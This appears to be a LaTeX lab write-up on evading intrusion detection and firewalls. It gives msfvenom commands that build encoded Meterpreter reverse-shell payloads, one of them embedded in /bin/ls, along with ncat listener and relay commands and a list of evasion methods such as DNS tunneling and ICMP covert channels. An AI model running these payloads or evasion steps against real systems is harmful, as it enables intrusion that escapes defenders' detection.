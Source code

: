 \documentclass[12pt]{article}
\begin{document}
\subsection*{Task 3: IDS/Firewall Evasion}
\textbf{Tool Used:} MSFVenom - A Metasploit payload generator and encoder

\textbf{Objective:} Create encoded payloads and implement techniques to bypass IDS/Firewall detection

\textbf{Commands \& Explanation:}
\begin{lstlisting}[language=bash]
# Create multi-encoded payload with shikata_ga_nai encoder
# -p: Specify payload type
\# LHOST: Local host IP for reverse connection
# LPORT: Local port to connect back to
# -e: Encoder to use
# -i: Number of encoding iterations
# -f: Output format
msfvenom -p linux/x86/meterpreter/reverse_tcp \
LHOST=192.168.1.5 LPORT=4444 \
-e x86/shikata_ga_nai -i 3 \
-f elf > payload.elf

# Additional payload obfuscation
msfvenom -p linux/x86/meterpreter/reverse_tcp \
LHOST=192.168.1.5 LPORT=4444 \
-e x86/shikata_ga_nai -i 3 \
-x /bin/ls -k -f elf > payload2.elf

# Set up listener with packet fragmentation
# -l: Listen mode
# -v: Verbose output
# -p: Port to listen on
# --send-only: Only send data
ncat -lvp 8081 --send-only

# Alternative port forwarding setup
ncat -lvp 8082 -c 'ncat 192.168.1.5 4444'
\end{lstlisting}

\textbf{Advanced Evasion Techniques:}
\begin{itemize}
  \item \textbf{Payload Encoding:}
    \begin{itemize}
      \item Multiple encoding iterations
      \item Custom encoding schemes
      \item Polymorphic code generation
      \item Binary payload obfuscation
    \end{itemize}
  \item \textbf{Network-Level Evasion:}
    \begin{itemize}
      \item TCP/IP fragmentation
      \item Invalid checksum packets
      \item TTL manipulation
      \item Source port randomization
    \end{itemize}
  \item \textbf{Protocol-Level Evasion:}
    \begin{itemize}
      \item DNS tunneling
      \item ICMP covert channels
      \item HTTP/HTTPS encapsulation
      \item Custom protocol implementations
    \end{itemize}
\end{itemize}
\end{document}
